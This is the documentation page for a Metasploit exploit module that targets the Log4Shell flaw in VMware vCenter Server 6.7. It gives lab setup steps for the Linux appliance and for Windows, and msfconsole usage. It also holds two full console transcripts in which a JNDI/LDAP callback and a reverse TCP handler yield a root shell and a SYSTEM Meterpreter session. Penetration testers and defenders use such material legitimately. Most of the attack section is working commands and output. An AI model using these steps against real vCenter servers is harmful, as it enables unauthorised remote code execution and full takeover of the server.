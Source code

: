## Vulnerable Application

### Description
VMware vCenter Server is affected by the Log4Shell vulnerability whereby a JNDI string can sent to the server
that will cause it to connect to the attacker and deserialize a malicious Java object. This results in OS
command execution in the context of the root user in the case of the Linux virtual appliance and SYSTEM on
Windows.

This module will start an LDAP server that the target will need to connect to. This exploit uses the logon page
vector.

### Setup
Once vCenter is installed, no configuration needs to take place. The application is vulnerable out of the box.

### Linux Appliance
Follow the steps from the [vmware_vcenter_uploadova_rce][1] module.

In summary:

1. Obtain a `VMware-VCSA-all-6.7.0-#####.iso` file, the example will assume VMware-VCSA-all-6.7.0-11726888.iso.
2. Mount the ISO and extract the OVA file from under the `vcsa` directory.
3. Import it into VMware workstation, leave all options blank.
4. When prompted to select a size, select tiny or small.
5. The system will boot once, wait for a few minutes and then automatically reboot.
6. Once the system has booted the second time, access the console to set the root password.
7. Navigate to the HTTPS site on port 5480. The host IP address will be on the console.
8. Complete the setup steps, when prompted use a public NTP server instead of synchronizing with the non-existent ESX
   server.
9. Wait for setup to complete, and then exploit the service listening on port 443.

### Windows Application
1. Obtain a `VMware-VIM-all-6.7.0-#####.iso` file.
2. Mount the file in a Windows server, (use Server 2016 **not** Server 2019).
3. Run the setup file in the root of the CD.
4. Complete the setup process.
5. Wait for setup to complete, and then exploit the service listening on port 443.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/vmware_vcenter_log4shell`
3. Set the `RHOSTS`, `TARGET`, `PAYLOAD`, and payload associated options
4. Do: `run`
5. If the target is vulnerable, the payload should be executed

## Options

## Scenarios

### VMware vCenter Server 6.7 Build 17028632 / Update 1b (Linux appliance)

```
msf6 > use exploit/multi/http/vmware_vcenter_log4shell 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/vmware_vcenter_log4shell) > set RHOSTS 192.168.159.55
RHOSTS => 192.168.159.55
msf6 exploit(multi/http/vmware_vcenter_log4shell) > set TARGET Linux
TARGET => Linux
msf6 exploit(multi/http/vmware_vcenter_log4shell) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/vmware_vcenter_log4shell) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 exploit(multi/http/vmware_vcenter_log4shell) > check

[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.55:443    - Log4Shell found via /websso/SAML2/SSO/vsphere.local/?SAMLRequest= (header: X-Forwarded-For) (java: Oracle Corporation_1.8.0_251)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] 192.168.159.55:443 - The target is vulnerable.
msf6 exploit(multi/http/vmware_vcenter_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.55:443    - Log4Shell found via /websso/SAML2/SSO/vsphere.local/?SAMLRequest= (header: X-Forwarded-For) (java: Oracle Corporation_1.8.0_251)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 1 opened (192.168.159.128:4444 -> 192.168.159.55:48454 ) at 2022-01-13 12:38:14 -0500
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/
```

### VMware vCenter Server 6.7.0 Build 16708996 (Windows)

In this example, the target server is running on the non-default port of 8443.

```
msf6 > use exploit/multi/http/vmware_vcenter_log4shell 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/vmware_vcenter_log4shell) > set RHOSTS 192.168.159.45
RHOSTS => 192.168.159.45
msf6 exploit(multi/http/vmware_vcenter_log4shell) > set TARGET Windows 
TARGET => Windows
msf6 exploit(multi/http/vmware_vcenter_log4shell) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 exploit(multi/http/vmware_vcenter_log4shell) > set SRVHOST 192.168.159.128 
SRVHOST => 192.168.159.128
msf6 exploit(multi/http/vmware_vcenter_log4shell) > set RPORT 8443
RPORT => 8443
msf6 exploit(multi/http/vmware_vcenter_log4shell) > check

[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.45:8443   - Log4Shell found via /websso/SAML2/SSO/vsphere.local/?SAMLRequest= (header: X-Forwarded-For) (java: Oracle Corporation_1.8.0_251)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] 192.168.159.45:8443 - The target is vulnerable.
msf6 exploit(multi/http/vmware_vcenter_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using auxiliary/scanner/http/log4shell_scanner as check
[+] 192.168.159.45:8443   - Log4Shell found via /websso/SAML2/SSO/vsphere.local/?SAMLRequest= (header: X-Forwarded-For) (java: Oracle Corporation_1.8.0_251)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Sleeping 30 seconds for any last LDAP connections
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Sending stage (175174 bytes) to 192.168.159.45
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.45:63083 ) at 2022-01-13 14:22:00 -0500
[*] Server stopped.

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 8
Meterpreter     : x86/windows
meterpreter > 
```

[1]: https://github.com/rapid7/metasploit-framework/blob/ec37a88a4aecc49ffceaf10a1e8e09d3d15f8bda/documentation/modules/exploit/multi/http/vmware_vcenter_uploadova_rce.md#setup
